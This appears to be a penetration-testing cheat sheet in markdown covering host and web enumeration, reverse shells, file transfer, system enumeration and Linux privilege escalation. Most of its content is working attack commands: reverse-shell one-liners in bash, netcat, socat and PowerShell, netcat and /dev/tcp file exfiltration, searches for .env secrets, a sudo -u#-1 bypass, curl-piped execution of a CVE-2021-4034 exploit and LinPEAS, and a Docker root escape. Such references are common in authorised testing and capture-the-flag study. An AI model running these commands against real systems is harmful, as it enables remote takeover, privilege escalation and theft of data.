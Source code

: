 # CHEATSHEET  
<br />
<br />
## NETWORK ENUMERATION
<br />
### HOST DISCOVERY
```bash
arp-scan -I <INTERFACE> --localnet --ignoredups
```
<br />
### TCP OPEN PORTS
```bash
nmap -p- --open -sS -n -v -Pn --min-rate 5000 -oG allPorts <TARGET> 
```
<br />
### INFO & VERSION
```bash
nmap -p<PORTS> -sCV -oN portScan <TARGET>
```
<br />
### HTTP ENUMERATION
Enumerate common directories and files with nmap
```bash
nmap -p<PORTS> --script http-enum -oN webScan <TARGET>
```
Gobuster
```bash
# Directories
gobuster dir -u <URL> -w <WORDLIST>

# Files by extension
gobuster dir -u <URL> -w <WORDLIST> -x http,php,txt

# Subdomains
gobuster vhost -u <URL> -w <WORDLIST>

# Useful parameters
--threads, -t
--exclude-length
--status-codes, -s
--status-codes-blacklist, -b
--no-tls-validation, -k
--timeout
```
<br />
<br />
<br />
## REVERSE SHELLS
<br />
### BASH
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```
<br />
### NETCAT
```bash
nc -e /bin/bash <IP> <PORT>
```
<br />
### MKFIFO
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> <PORT> >/tmp/f
```
<br />
### SOCAT
```bash
socat tcp-connect:<IP>:<PORT> exec:/bin/bash,pty,stderr,setsid,sigint,sane
```
<br />
### POWERSHELL
```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
<br />
### INTERACTIVE TTY
```bash
script /dev/null -c bash
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
# Check size in another window: stty size
stty rows <ROWS> columns <COLUMNS>
```
<br />
<br />
<br />
## SHARE AND DOWNLOAD
<br />
### HTTP SERVER
```bash
# Python3
python3 -m http.server <PORT>

# Python2
python -m SimpleHTTPServer <PORT>

# PHP
php -S 0.0.0.0:<PORT>
```
<br />
### SMB 
```bash
smbserver.py <NAME> $(pwd) -smb2support
```
<br />
### FILE TRANSFER ( NETCAT - BASH ) 
```bash
# Listen
nc -nlvp <PORT> > <FILE>

# Send
cat <FILE> | nc <IP> <PORT>  # Netcat
cat <FILE> > /dev/tcp/<IP>/<PORT>  # Bash
```
<br />
### DOWNLOAD 
#### Powershell
```powershell
(New-Object Net.WebClient).DownloadString('<URL>') > <PATH>
```
<br />
####Cmd
```shell
certutil -urlcache -split -f <URL> <PATH>
```
<br />
#### Bash
```bash
wget "http://<IP>/"
```
<br />
<br />
<br />
## SYSTEM ENUMERATION
<br />
### Enviroment Variables
```bash
# User enviroment variables
env || set

# Common project enviroment file
find / -name ".env" 2>/dev/null
```
<br />
### Find SUID on GUID files
```bash
# SUID
find / -perm -4000 2>/dev/null

# GUID
find / -perm -2000 2>/dev/null
```
<br />
### Check capabilities
```bash
getcap -r / 2>/dev/null
```
<br />
### Open local ports
```bash
ss -nltp
```
<br />
### Cron Jobs
```bash
# Cron files
find /etc -name "cron*" 2>/dev/null

# Logs
ls -l /var/log/syslog
ls -l /var/log/cron
```
<br />
### Monitoring processes
```bash
old_ps=$(ps -eo user,command); while true; do; new_ps=$(ps -eo user,command); diff <(echo "$old_ps") <(echo "$new_ps") | grep "[\>\<]" |grep -Ev "kworker|user,command"; old_ps=$new_ps; done
```
<br />
### Scripts with write permissions
```bash
find / -user <USER> -perm -o+w \( -name \"*.sh\" -O -name \"*.py\" -O -name \"*.pl\" -O -name \"*.rb\" -O -name \"*.go\" -O -name \"*.lua\" \) 2>/dev/null
```
<br />
### LinPEAS
```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
<br />
<br />
<br />
## PRIVILEGE ESCALATION
<br />
### Sudo
```bash
# List user privileges
sudo -l

# Check sudo version
sudo -V | grep "Sudo ver"

# Sudo < v1.28
sudo -u#-1 /bin/bash
```
<br />
### Polkit - (CVE-2021-4034)
```bash
# Check pkexec permissions
ls -l $(which pkexec)

# If pkexec has SUID
curl -L https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py | python3
```
<br />
### Docker
```bash
docker run -it --rm -v /:/mnt alpine chroot /mnt sh
```
<br />
